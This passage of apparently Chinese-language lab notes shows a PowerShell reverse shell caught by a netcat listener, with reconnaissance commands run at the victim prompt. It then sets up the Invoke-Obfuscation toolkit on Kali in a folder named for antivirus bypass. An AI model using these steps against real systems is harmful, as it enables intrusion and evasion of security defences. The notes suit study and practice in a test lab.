 I should get a PowerShell session. This is a remote or a PowerShell reverse shell.

```
nc -nvlp 1234

PS C:\Users\IEUser\Downloads> whoami
PS C:\Users\IEUser\Downloads> systeminfo
```

# 复现视频内容

[danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation/)

```
┌──(root㉿kali)-[~]
└─# apt install powershell -y
```

```
┌──(root㉿kali)-[~/Desktop/AVBypass/Invoke-Obfuscation]
└─# pwsh
PowerShell 7.2.6
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.


┌──(root㉿kali)-[/root/Desktop/AVBypass/Invoke-Obfuscation]
└─PS> dir

    Directory: /root/Desktop/AVBypass/Invoke-Obfuscation

UnixMode   User             Group                 LastWriteTime           Size Name
--------   ----             -----                 -------------           ---- ----
-rw-r--r-- root             root                5/23/2023 09:53         131795 Invoke-Obfuscation.ps1
-rw-r--r-- root             root                5/23/2023 09:53           2260 Invoke-Obfuscation.psd1
-rw-r--r-- root             root                5/23/2023 09:53           4815 Invoke-Obfuscation.psm1
-rw-r--r-- root             root                5/23/2023 09:53          11350 LICENSE
-rw-r--r-- root             root                5/23/2023 09:53          40532 Out-CompressedCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          46942 Out-EncodedAsciiCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          51028 Out-EncodedBinaryCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          49484 Out-EncodedBXORCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          49340 Out-EncodedHexCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          48866 Out-EncodedOctalCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          51672 Out-EncodedSpecialCharOnlyCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53          62620 Out-EncodedWhitespaceCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53         258616 Out-ObfuscatedAst.ps1
-rw-r--r-- root             root                5/23/2023 09:53         100300 Out-ObfuscatedStringCommand.ps1
-rw-r--r-- root             root                5/23/2023 09:53         213452 Out-ObfuscatedTokenCommand.ps1
```